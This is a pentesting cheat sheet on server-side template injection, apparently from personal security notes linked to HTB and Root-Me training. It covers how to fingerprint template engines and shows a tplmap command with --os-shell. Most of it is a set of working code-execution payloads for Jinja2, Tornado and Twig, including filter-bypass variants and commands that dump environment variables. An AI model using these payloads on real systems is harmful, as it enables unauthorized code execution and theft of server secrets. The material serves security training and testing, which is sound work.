 # Server-Side Template Injection (SSTI)

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![ssti_server_side_template_injection](../../../../_badges/hacktricks/pentesting_web/ssti_server_side_template_injection.svg)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/)
[![ssti](../../../../_badges/poat/ssti.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
[![java_ssti](../../../../_badges/rootme/web_server/java_ssti.svg)](https://www.root-me.org/en/Challenges/Web-Server/Java-Server-side-Template-Injection)

<div class="row row-cols-lg-2"><div>

Server-Side Template Injection occurs when we can inject code that is parsed by a template engine such as [Jinja2](/programming-languages/web/topics/templating/jinja2/index.md) in Python.

You may be able to guess the template engine used from the web server, for instance, if it's Python then it's most likely Jinja.

To guess the template engine, we can try every token (`${{<%[%'"}}%\`) with expressions such as `7*7` or `7*'7'` and look for the output/errors.

* [Port Swigger SSTI Decision Tree](https://portswigger.net/web-security/images/template-decision-tree.png)
* [Template Injection Table](https://cheatsheet.hackmanit.de/template-injection-table/)
</div><div>

There are a few tools you might use:

* [TInjA](https://github.com/Hackmanit/TInjA) <small>(0.2k ⭐)</small>
* [sstimap](https://github.com/vladko312/sstimap) <small>(0.6k ⭐)</small>
* [tplmap](https://github.com/epinna/tplmap) <small>(3.6k ⭐, 2022 🪦)</small>

```ps
$ tplmap -u 'http://example.com:80/*'
$ tplmap -u 'http://example.com:80' -d 'xxx=yyy'
$ tplmap -u 'http://example.com:80' -d 'xxx=yyy' --os-shell
```
</div></div>

<hr class="sep-both">

## Well-Known Template Engines

<div class="row row-cols-lg-2"><div>

#### Jinja2 Template Engine — Python

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![jinja2_ssti](../../../../_badges/hacktricks/pentesting_web/ssti_server_side_template_injection/jinja2_ssti.svg)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)
[![python_ssti_introduction](../../../../_badges/rootme/web_server/python_ssti_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Server/Python-Server-side-Template-Injection-Introduction)

Refer to [JinJa2 Notes](/programming-languages/web/topics/templating/jinja2/index.md) if needed.

* Basic Fingerprint PoC: `{{ "PoC" }}` then `{{ "PoC"|e }}`
* Test for instructions: `{% debug %}` and `{% print("PoC") %}`
* Try to print the context `{{ self._TemplateReference__context }}`
* Then, you might try to perform a code injection:

```js!
{{ cycler.__init__.__globals__.os.system('ls') }}
{{ cycler.__init__.__globals__.os.popen("ls -1a").read() }}
{{ lipsum.__globals__.os.popen('ls -1a').read() }}
{{ self.__init__.__globals__.__builtins__.__import__('os').system('ls') }}
{{ request.application.__globals__.__builtins__.__import__('os').popen('ls -1a').read() }}
```

* To bypass filters, refer to my [Python Cheatsheet](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md#python) and:

```js!
{{ cycler.__init__.__globals__.os.system('ls') }}
{{ cycler|attr('__init__')|attr('__globals__')|attr('get')('os')|attr('system')('ls') }}
{{ cycler|attr('__in'+'it__')|[...] }}
{{ cycler|attr('__in'~'it__')|[...] }}
{{ cycler|attr(('@@in'~'it@@'|replace("@", "\u005F")))|[...] }}
```

* Never inject untrusted input in your template before rendering them. Always pass the input as parameters and use `{{ param|e }}` to avoid XSS. Flask automatically escape all parameters by default.

⚠️ Before, we were using longer payloads as [explained here](https://podalirius.net/en/publications/grehack-2021-optimizing-ssti-payloads-for-jinja2/).

</div><div>

#### Apache Velocity Template Engine — Java

Link to the [official documentation](https://velocity.apache.org/).

* Basic PoC: `#set($s=7+7) $s`

<br>

#### Tornado Web Framework Templates — Python

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)

Link to the template section of the [official documentation](https://www.tornadoweb.org/en/stable/guide/templates.html).

```js!
{% import os %}{{os.popen('whoami').read()}}
```

<br>

#### Twig Template Engine — PHP

[![server_side_attacks](../../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)

Link to the [official documentation](https://twig.symfony.com/documentation). [GitHub](https://github.com/twigphp/Twig) <small>(8.0k ⭐)</small>.

* Basic Fingerprint PoC: `{{_self}}`, `{{_self.env}}`
* Random payloads:

```js!
{{_self.env.display("TEST")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname;printenv")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id;uname -a;hostname;printenv")}}
```

📚 Both `exec` and `system` are PHP functions.
</div></div>